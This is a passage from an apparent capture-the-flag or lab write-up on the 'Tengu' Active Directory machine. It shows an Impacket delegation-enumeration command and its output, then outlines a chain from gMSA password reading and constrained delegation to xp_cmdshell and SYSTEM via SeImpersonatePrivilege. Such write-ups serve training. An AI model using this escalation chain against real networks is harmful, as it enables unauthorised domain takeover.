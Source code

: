 ![alt text](<../assets/image_tengu/bloodhound for nodered gmsa.png>)

As we can see, NODERED$ can read GMSA password but we don't have the hash of NODERED$

After some enumeration : 

```bash
proxychains -q findDelegation.py "tengu.vl"/"t2_m.winters":'REDACTED'
Impacket v0.10.1.dev1+20220912.224808.5fcd5e81 - Copyright 2022 SecureAuth Corporation

AccountName  AccountType                          DelegationType                      DelegationRightsTo
-----------  -----------------------------------  ----------------------------------  --------------------------
gMSA01$      ms-DS-Group-Managed-Service-Account  Constrained w/ Protocol Transition  MSSQLSvc/SQL:1433
gMSA01$      ms-DS-Group-Managed-Service-Account  Constrained w/ Protocol Transition  MSSQLSvc/sql.tengu.vl:1433
gMSA01$      ms-DS-Group-Managed-Service-Account  Constrained w/ Protocol Transition  MSSQLSvc/sql.tengu.vl
gMSA01$      ms-DS-Group-Managed-Service-Account  Constrained w/ Protocol Transition  MSSQLSvc/sql
```
So if we manage to have NODERED$, we can have GMSA01$ which will allow us to impersonate for example the administrator of the machine where the mssql server is, which will allow us to activate xp_cmdshell in order to have a shell with "SeImpersonatePrivilege" activated, we can therefore pass NT/AUTHORITY SYSTEM
